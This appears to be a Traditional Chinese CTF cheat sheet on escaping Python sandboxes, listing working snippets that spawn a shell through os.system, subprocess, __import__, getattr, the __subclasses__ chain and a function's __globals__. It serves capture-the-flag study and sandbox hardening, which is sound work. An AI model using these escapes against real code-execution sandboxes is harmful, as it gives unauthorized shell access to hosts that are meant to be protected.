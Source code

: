 # CTF 技巧彙整 - Python Sandbox Challenge

Python Sandbox 的題目通常都是可以讓我們執行 python 的程式碼，但是會有各種檢查

### 目標

**Get shell**

```python
import os
os.system("sh")
```

```python
import subprocess
subprocess.Popen(["sh"])
```

```python
import sys
sys.modules["os"].system("sh")
```

### 小技巧

#### `__import__`

`import` 其實是去呼叫 `__import__`

```python
__import__("os").system("sh")
```

#### 拉圾堆

可以從這些地方找可以用的東西

```python
globals()
locals()
{}.__class__.__base__.__subclasses__()
{}.__class__.__mro__[1].__subclasses__()
```

#### `getattr`

`.` 可以用 `getattr` 取代

```python
os.system("sh")
getattr(os, "system")("sh")
```

#### 共享視野

當我們有一個檔案 `test.py` 長這樣

```python
import os

def test():
    print("test")
```

我們可以跟 `test` 函式共享視野

```python
from test import test
test.__globals__["os"].system("sh")
test.__globals__["__builtins__"]["__import__"]("os").system("ls")
```

### 各種底線是什麼

#### `__builtins__`

會自動載入為全域變數，包括各種內建函式 ( ex: `print`, `dir`, ... )

```python
__builtins__ = __import__("__builtin__") # python2
__builtins__ = __import__("builtins")    # python3
```
